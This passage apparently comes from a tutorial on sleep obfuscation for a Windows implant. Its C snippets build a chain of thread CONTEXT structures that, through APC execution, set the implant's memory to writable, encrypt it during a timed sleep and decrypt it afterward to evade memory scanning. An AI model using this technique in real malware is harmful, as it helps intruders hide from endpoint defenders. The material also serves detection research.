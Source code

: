 3. We will retrieve the context of the created thread and transfer it to other [CONTEXT](https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-context) structures, where the chain will be constructed.

```c
CtxMain.ContextFlags = CONTEXT_FULL;
Status = Instance()->Win32.NtGetContextThread( hSlpThread, &CtxMain );
if ( Status != 0x00 ) {
    PrintErr( "NtGetContextThread", Status );
}
```

4. We will set the Rsp register to always return to [NtTestAlert](https://ntdoc.m417z.com/nttestalert). This is done because [NtTestAlert](https://ntdoc.m417z.com/nttestalert) checks if there are any pending APCs to be executed. If so, they will be executed.

```c
*(PVOID*)CtxMain.Rsp = Instance()->Win32.NtTestAlert;
```

5. After populating the other [CONTEXT](https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-context) structures with the values returned in CtxMain, we can finally execute the chain.

```c
/* 
 * wait EvtSync gets triggered
 * NtWaitForGingleObject( EvtSync, FALSE, NULL ); 
 */
RopSetEvt.Rip = NtWaitForSingleObject;
RopSetEvt.Rcx = EvtSync;
RopSetEvt.Rdx = FALSE;
RopSetEvt.R9  = NULL;

/*
 * Change implant protection to RW
 * VirtualProtect( ImageBase, ImageSize, PAGE_READWRITE, &OldProt ); 
 */
RopProtRw.Rip = VirtualProtect;
RopProtRw.Rcx = ImageBase;
RopProtRw.Rdx = ImageSize;
RopProtRw.R8  = PAGE_READWRITE;
RopProtRw.R9  = &OldProt;

/*
 * memory encryption
 * SystemFunction( &Img, &Key );
 */
RopMemEnc.Rip = SystemFunction040;
RopMemEnc.Rcx = ImageBase;
RopMemEnc.Rdx = ImageSize;

/*
 * delay
 * WaitForSingleObjectEx( NtCurrentProcess(), SleepTime, FALSE );
 */
RopDelay.Rip = Instance()->Win32.WaitForSingleObjectEx;
RopDelay.Rcx = NtCurrentProcess();
RopDelay.Rdx = SleepTime;
RopDelay.R8  = FALSE;

/*
 * memory decryption
 * SystemFunction( &Img, &Key );
 */
RopMemDec.Rip = Instance()->Win32.SystemFunction041;
RopMemDec.Rcx = ImageBase;
RopMemDec.Rdx = ImageSize;
```